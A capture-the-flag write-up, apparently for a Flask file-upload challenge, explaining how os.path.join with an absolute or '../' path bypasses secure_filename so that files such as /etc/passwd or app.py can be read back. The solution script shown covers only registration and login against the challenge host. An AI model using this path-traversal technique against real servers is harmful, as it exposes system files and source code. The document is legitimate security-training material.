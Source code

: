 Then, I looked in `/upload` functionality. They used `secure_filename()` to prevent Path Traversal attack (see [here](https://flask.palletsprojects.com/en/2.3.x/patterns/fileuploads/)). But they did not check file content! So we could upload code and execute it, right?

Nah! We can only download files; we cannot execute them server-side. Download... Download... What if... we can download backend files?


## Vulnerabilities

The documentation for the `os.path.join()` function includes the following notice:

> If a segment is an absolute path (which on Windows requires both a drive and a root), then all previous segments are ignored and joining continues from the absolute path segment.

That means the `file_path` can be `/etc/passwd`, or anything, which cannot be detected by `secure_filename()`.

```py
file_path = os.path.join(user_dir, filename)
```

Then when that path is saved into database, we can read any files!

```py
new_file = File(filename=secure_filename(filename), filepath=file_path, user_id=user_id)
db.session.add(new_file)
db.session.commit()
```

Note that the file will be uploaded into intended directory, but we do not need to care about that. We want to read other files.

## Exploitation

You can use Python or Burp to modify filepath. Modify to `../../app.py` to read `app.py` file. Then use `/file/<int:file_id>` to read.

## Solution

```py
import requests

# URL = 'http://localhost:5000'
URL = 'http://a108fda8273cb696f5ad0.playat.flagyard.com/'

# -----------------------------------------------------------
def regist_account(url, account):
    response = requests.post(url=url + '/register', json=account)
    
    if response.status_code == 201:
        print("[+] Regist successfully: ", response.status_code)
    else:
        print("[+] Regist fail: ", response.status_code)
    print('\t---------------------------------------')
    print('\t', response.text)
    print('\t---------------------------------------')
    
def login_account(url, session: requests.Session, account):
    response = session.post(url=url + '/login', json=account)
    
    if response.status_code == 200:
        print("[+] Login successful: ", response.status_code)
    else:
        print("[+] Login fail: ", response.status_code)
    print('\t---------------------------------------')
    print('\t', response.text)
    print('\t---------------------------------------')
```